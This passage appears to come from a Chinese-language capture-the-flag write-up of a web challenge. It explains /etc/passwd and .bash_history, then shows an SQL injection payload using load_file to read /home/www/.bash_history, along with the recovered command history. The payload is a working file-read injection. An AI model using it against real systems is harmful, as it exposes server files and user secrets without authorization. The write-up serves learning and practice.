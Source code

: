 > ```
>
> 可以使用 `cat` 命令来查看 `/etc/passwd` 文件的内容，例如：
>
> ```
> cat /etc/passwd
> ```



![image-20230514133819724](https://s2.loli.net/2023/05/14/VaT2O47HDyoqlrA.png)



这里我们发现 `www`用户的**用户主目录刚好为 `/home`**

这个目录下有一个神奇的文件：`.bash_history`

> `.bash_history` 是一个隐藏文件，它**保存了用户在命令行界面中输入的历史命令记录**。当用户退出当前命令行终端时，系统会将当前的历史命令保存到 `.bash_history` 文件中，下次用户登录时，可以使用方向键等功能浏览并调用之前输入过的命令。
>
> **`.bash_history` 文件通常位于用户的主目录**下，可以使用以下命令来查看该文件的内容：
>
> ```
> cat ~/.bash_history
> ```
>
> 也可以使用其他文本编辑器，如 `vi`、`nano` 等编辑器来查看和编辑该文件，例如：
>
> ```
> vi ~/.bash_history
> ```
>
> 需要注意的是，`.bash_history` 文件中包含了用户输入的所有命令记录，包括敏感信息，因此需要妥善保管。为了保护用户的隐私，可以使用 `history` 命令来清除或删除历史命令记录，也可以在用户的 `~/.bashrc` 文件中设置不记录历史命令等操作。

我们查看一下：

```
',content=load_file("/home/www/.bash_history"),/*
```

得到：

```
cd /tmp/
unzip html.zip
rm -f html.zip
cp -r html /var/www/
cd /var/www/html/
rm -f .DS_Store
service apache2 start
```

这一些指令的意思是：

解压 `/tmp`下的 `html.zip`压缩包，然后删除这个压缩包，复制`html`目录到 `/var/www/html`下，删除该目录的 `.DS_Store`文件
